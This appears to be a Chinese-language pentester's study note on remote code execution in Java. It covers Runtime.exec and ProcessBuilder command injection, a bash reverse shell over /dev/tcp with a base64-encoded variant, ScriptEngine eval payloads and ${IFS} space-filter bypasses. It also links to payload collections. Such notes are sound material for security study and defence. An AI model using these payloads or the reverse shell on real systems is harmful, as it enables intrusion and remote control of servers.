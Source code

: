 场景：
  1、服务端直接存在可执行函数（ProcessBuilder()、exec()等）,且对传入的参数过滤不严格导致RCE漏洞。
  2、由表达式注入导致的RCE漏洞，如：OGNL(struts2)、SpEL(spring)、MVEL、EL、Fel、JSTL+EL等。
  3、由java后端模板引擎SSTI注入导致的RCE漏洞，如：Freemarker、Velocity、Thymeleaf等。
  4、由java一些脚本语言引起的RCE漏洞，如：Groovy、JavascriptEngine等。
  5、由第三方开源组件引起的RCE漏洞，如：Fastjson、Shiro、Xstream、Struts2等。
  6、关键词：ProcessBuilder、start、Runtime、getRuntime、exec等。    
危害：远程代码执行、远程命令执行、写入木马等。
防御：过滤用户可控的参数，升级组件版本或更换等。

^
## **原生命令执行**
原生命令执行的方式有两种：
第一种：
```
Runtime.getRuntime().exec("cmd /c ping 127.0.0.1 && dir");
//有/c或者linux的-c参数就可以命令拼接。c告诉cmd.exe 执行字符串指定的命令。
//exec()可以接收字符串，以及字符串数组等。
```


注意java这里反弹shell需要改良

```
Runtime.getRuntime().exec("bash -i >& /dev/tcp/ip/port 0>&1");

bash -i >& /dev/tcp/ip/port 0>&1 需要base64编码再执行下面：

bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}
```


第二种：
```
new ProcessBuilder("calc").start();
ProcessBuilder("ping", ip);  //这里的ip无法拼接命令。
当ProcessBuilder("cmd", "/c", "dir && calc");//时，这里可以拼接命令。
ProcessBuilder("cmd", "/c", "ping",ip);

注意在get请求中不要用&&作为拼接符号，用||前报错后执行。
```

^
## **利用JS引擎ScriptEngineManager代码执行**
在爬虫中常常用python实现远程执行js代码。
在java中也可以js代码，js如果可控，可能执行java对象代码。
>jdk17 ScriptEngineManager默认不在支持javascript，解决：
```
<dependency>
    <groupId>org.openjdk.nashorn</groupId>
    <artifactId>nashorn-core</artifactId>
    <version>15.3</version>
</dependency>
```
关键词：ScriptEngineManager
```
 // 创建一个 ScriptEngineManager 实例
        ScriptEngineManager manager = new ScriptEngineManager();

        // 通过 ScriptEngineManager 获取一个 JavaScript 引擎实例
        ScriptEngine engine = manager.getEngineByName("JavaScript");

        // 检查是否成功获取引擎
        if (engine != null) {
            System.out.println("JavaScript 引擎已成功加载。");
        } else {
            System.out.println("未能加载 JavaScript 引擎。");
        }

        try {
            String test = "var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec(\"calc\"); };";
// 若test可控，则代码执行
            engine.eval(test);
        }catch (Exception e){

        }
```
一句
```
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("java.lang.Runtime.getRuntime().exec('calc')");
```



^
## **拓展**
在java后台系统中工作流流程任务功能中，有的支持js脚本，就是这个实现的。
其实流程脚本任务不仅支持JS脚本，还支持Python，Groovy等脚本，其底层原理则是调用java中对应语言的解析函数，如JS脚本则是调用了ScriptEngine中的eval函数。据了解，流程引擎还支持表达式解析，所以该组件还存在其它的注入可能，以上仅对脚本注入的攻击形式进行了简单的探讨。这样的漏洞适用于几乎所有集成流程管理功能的系统，比如若依、Guss等系统均存在此类问题。
执行python：<https://blog.csdn.net/anlegor/article/details/44086367>


PS：Flowable 工作流引擎支持多种脚本语言，Flowable 原生支持 JavaScript、Groovy 和 JUEL，可以也试试python，而java11以上又默认不支持JavaScript，考虑Groovy和JUEL。



^
# 替换空格，绕过StringTokenizer

Linux下使用： ${IFS} 、 $IFS$9 windows下使用： %IFS% 、 %IFS%9

# criptEngineManager 参考文档

<https://xz.aliyun.com/t/8567?time__1311=n4%2BxnD0DcDuD907GkWD%2Fia%2BeYqhjrCQWiSReD>

# Groovy代码注入

<https://xz.aliyun.com/t/8231?time__1311=n4%2BxnD0Dc7eYuxmqGNnmDUx%2FRKDtKD9ACoD>

# scriptengine任意命令执行

<https://github.com/yzddmr6/Java-Js-Engine-Payloads?tab=readme-ov-file#js%E5%8A%A0%E8%BD%BD%E4%BB%BB%E6%84%8F%E5%AD%97%E8%8A%82%E7%A0%81>

# 实际案例

<https://github.com/JPressProjects/jpress/issues/171>

